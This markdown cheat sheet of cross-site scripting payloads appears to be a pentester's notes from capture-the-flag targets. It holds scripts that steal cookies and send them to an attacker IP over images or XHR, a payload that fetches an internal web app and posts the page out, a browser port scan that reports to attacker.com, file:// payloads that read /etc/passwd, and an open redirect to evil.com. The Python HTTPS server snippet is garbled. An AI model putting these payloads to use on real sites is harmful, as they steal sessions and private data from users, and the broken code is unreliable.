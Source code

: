 # Exploitation


### Cookie Stealing

##### Basic/Classic

```
<script>var i=new Image(); i.src="http://10.10.14.8/?cookie="+btoa(document.cookie);</script>
```

##### Bypassing secure flag protection

We can also use [Certbot](Certbot.md)

Creating a HTTP server

```
openssl req -new -x509 -keyout localhost.pem -out localhost.pem -days 365 -nodes
```

Generating certificate

```
#!/usr/bin/python3
import http.server, sslserver_address = ('0.0.0.0', 443)
httpd = http.server.HTTPServer(server_address,
http.server.SimpleHTTPRequestHandler)
httpd.socket =
ssl.wrap_socket(httpd.socket,server_side=True,certfile='local
host.pem')
"""ssl_version=ssl.PROTOCOL_TLSv1_2)
"""
httpd.serve_forever()
```

##### Via XHR

```
var xhr=new XMLHttpRequest();
xhr.open("GET", "https://10.10.14.8/?"+document.cookie,
true);
xhr.send();
```

### Open Redirect

```
<script>window.location.replace("http://evil.com");</script>
```


### Accessing Internal application 

```
var url="http://mail.stacked.htb/" //targeturl(internal wep
application)
var xhr=new XMLHttpRequest();
xhr.open("GET", url, false);
xhr.send();
var resp=xhr.responseText;//transferring HTTP response to us
var xhr2=new XMLHttpRequest();
xhr2.open("POST", 'http://10.10.14.89:443/', false);
xhr2.send(resp);
```

```
<script src="http://10.10.14.89/apni.js"></script>
```

we need to lister like `nc -lvnp 443 > filename.html` then we can see the internal application html.

### Port Scan

```
<script>
const checkPort = (port) => {
fetch(`http://localhost:${port}`, { mode: "no-cors" }).then(() => {
let img = document.createElement("img");
img.src = `http://attacker.com/ping?port=${port}`;
});
}
for(let i=0; i<1000; i++) {
checkPort(i);
}
</script>
```

```
<img src="https://attacker.com/startingScan">
```

#### Read local File

```
<script>
x=new XMLHttpRequest;
x.onload=function(){document.write(btoa(this.responseText))};
x.open("GET","file:///etc/passwd");x.send();
</script>
```

```
<script>
xhzeem = new XMLHttpRequest();
xhzeem.onload = function(){document.write(this.responseText);}
xhzeem.onerror = function(){document.write('failed!')}
xhzeem.open("GET","file:///etc/passwd");
xhzeem.send();
</script>
```

```
<iframe src=file:///etc/passwd></iframe>

<img src="xasdasdasd" onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>

<link rel=attachment href="file:///root/secret.txt">

<object data="file:///etc/passwd">

<portal src="file:///etc/passwd" id=portal>

<annotation file="/etc/passwd" content="/etc/passwd" icon="Graph" title="Attached File:/etc/passwd" pos-x="195" />
```

